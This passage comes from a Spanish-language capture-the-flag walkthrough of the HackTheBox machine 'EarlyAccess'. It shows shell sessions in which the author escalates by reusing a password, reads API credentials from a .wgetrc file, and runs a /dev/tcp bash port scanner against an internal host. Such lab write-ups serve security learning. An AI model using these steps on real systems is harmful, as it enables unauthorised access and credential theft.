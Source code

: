```powershell
www-data@webserver:/var/www/earlyaccess.htb/dev/actions$ cd /home
www-data@webserver:/home$ ls
www-adm
www-data@webserver:/home$ cd www-adm
www-data@webserver:/home/www-adm$ ls -la
drwxr-xr-x 2 www-adm www-adm 4096 Feb 14 20:41 .
drwxr-xr-x 1   root   root   4096 Feb 14 20:41 ..
drwxrwxrwx 1   root   root   4096 Feb 9  20:41 .bash_history -> /dev/null
-rw-r--r-- 1 www-adm www-adm  220 Apr 18  2019 .bash_logout
-rw-r--r-- 1 www-adm www-adm 3526 Apr 18  2019 .bashrc
-rw-r--r-- 1 www-adm www-adm  887 Apr 18  2019 .profile
-r-------- 1 www-adm www-adm   33 Feb 14 20:41 .wgetrc
www-data@webserver:/home/www-adm$ cat .wgetrc
cat: .wgetrc: Permission denied
```

Vemos si las credenciales anteriores en <i>https://dev.earlyaccess.htb</i> son reutilizables.

```powershell
www-data@webserver:/home/www-adm$ su www-adm
Password:
www-adm@webserver:~$
```

Estando como el usuario <i>www-adm</i> vemos si podemos ver <i>cat ~/.wgetrc</i>

```powershell
www-adm@webserver:$ cat ~/.wgetrc
user=api
password=s3Cur3_API_PW!
www-adm@webserver:$
```

Ahora, utilizando nc, verificaremos si existe alguna máquina con el nombre <i>API</i>

```powershell
www-adm@webserver:$ nc API 80
API [172.18.0.101] 80 (http) : Connection refused
```

y si existe tal máquina lo que no sabemos es que puertos tiene abiertos para
ello crearemos un escáner en <i>/tmp</i>

```powershell
for port in $(seq 1 65535); do
timeout 1 bash -c "echo '' > /dev/tcp/172.18.0.101/$port" 2>/dev/null && echo "[+] $port - Open" &
done; wait
```

Ejecutamos nuestro script...

```powershell
www-adm@webserver:/tmp$ ./scan.sh
[+] 5000 - Open
```

Observamos el puerto 5000 abierto, intentaremos descargarlo...
